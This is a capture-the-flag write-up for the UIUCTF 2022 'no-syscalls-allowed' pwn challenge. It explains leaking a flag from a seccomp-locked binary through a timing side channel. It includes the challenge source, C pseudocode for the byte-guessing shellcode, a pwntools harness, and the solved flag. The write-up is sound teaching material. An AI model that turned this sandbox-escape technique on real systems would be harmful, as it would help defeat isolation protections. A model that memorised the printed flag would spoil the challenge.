


# no-syscalls-allowed.c

Categories: Pwn

Description:
> no-syscalls-allowed.c
>
>- 205 points
>
>"no cell phones sign on a wall"
>
>
> No syscalls, no problem
>
> `nc no-syscalls-allowed.chal.uiuc.tf 1337`
>
>author: kuilin
>
> [no_syscalls_allowed.c](src/no_syscalls_allowed.c)

**Tags:** pwn, seccomp filter, timing side-channel, shellcode with pwntools, shellcode template

## Takeaways

- Shellcode created via pwntools `asm()`. You can use it as a template in the future.
  - Relative addressing in shellcode
  - Comments in shellcode
  - Data in shellcode
  - Parameterized shellcode
- Always be on the look out for side-channels
- Jumping to shellcode with active registers, can leak important information!

## Solution

In this challenge, we are given the source code which is pretty minimal:

```c
char flag[100];

void main(int argc, char *argv[]) {
  int fd = open("/flag.txt", O_RDONLY);
  read(fd, flag, sizeof flag);

  void *code = mmap(NULL, 0x1000, PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
  read(STDIN_FILENO, code, 0x1000);

  if (seccomp_load(seccomp_init(SCMP_ACT_KILL)) < 0) return;

  ((void (*)())code)();
}
```

As we can see, the program reads the flag from a file into the `flag` buffer, allocates a RWX page, stores `0x1000` bytes of shellcode that we provide into that page, disables all system calls, and finally invokes our shellcode.

```log
nikos@ctf-box:~/ctfs/uiuctf22/pwn/no-syscalls-allowed$ seccomp-tools dump ./no_syscalls_allowed
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x03 0xc000003e  if (A != ARCH_X86_64) goto 0005
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x00 0xffffffff  /* no-op */
 0005: 0x06 0x00 0x00 0x00000000  return KILL
```

So, indeed no system call is allowed. What payload can we craft that leaks the flag? We can use a timing side-channel!

We will brute-force the flag byte-by-byte. We will start with the character at index `0`. We will test all possible 256 ASCII characters. Let's assume that we make a guess `g`. If `flag[0] != g` then we will seg fault the program (fast path). If `flag[0] == g` then we will enter an infinite loop, indicating to our open connection that the flag character is correct:

```C
char *flagptr = &flag;

//string.ascii_letters + string.digits + string.punctuation
char *alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!#$&()*+,-./:;<=>?@[]^_`{|}~"; //careful for escapes

void exploit(int flagidx, int alphabetidx) {
  char flagch = *(flagptr + flagidx);
  char cptr=*(alphabet + alphabetidx);

if(flagch == cptr)
    while(1) { /* hang */ };
else
    *(NULL);  //crash - touch NULL pointer
}
```

One thing that we are missing here is the address of `flag` as we do not have the binary and it is also probably PIE. As the binary does not clear the registers before jumping to our shellcode, we can easily figure that out:

```python
from pwn import *
context.binary = elfexe = ELF('./no_syscalls_allowed')
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elfexe.path] + argv, gdbscript, elfexe.path, *a, *kw)
    else:
        target = process([elfexe.path] + argv, *a, **kw)
    return target
io = start()
shellcode  = b'\xCC' # int3
assert(len(shellcode) <= 0x1000)
padded_shellcode = shellcode + b'\x90'*(0x1000 - len(shellcode)) # pad with NOps
io.send(padded_shellcode)
```

This shellcode consists of just a single breakpoint. When we run the binary under gdb, we can examine its registers:



And look at that! `r13` is a pointer to `main` and we can calculate the offset to the global variable `flag`. However, there is **caveat here**. We are not given the binary, we are only given the source code. This means that the remote binary will have a different offset.

We can expect that our binary will be similar to the one the server is running, but offsets will vary slightly. At least, the size of the program segments should be the same.



So, as you can see, each segment of the `no_syscalls_allowed` that comes from the file (i.e. not `MAP_ANONYMOUS`), is exactly 1 page long. And we expect the `flag` to be in the `RW-` segment. So, we can clear out the last 3 nibbles of `r13` to get the base address of the code segment and then add `0x3000` to get the base address of the `RW-` segment.

Next, we have to find the offset of the flag in the `RW-` segment. At this point, we use the offset that our local binary has (`0x40`). Once we have a fully working exploit locally, we can brute force the offset of the `flag` since we know that it must start with `uiuctf{`.

For the full script that implements the above solution, see [solution.py](solution.py). Once we run the script, we are presented with the flag!

`uiuctf{timing-is-everything}`
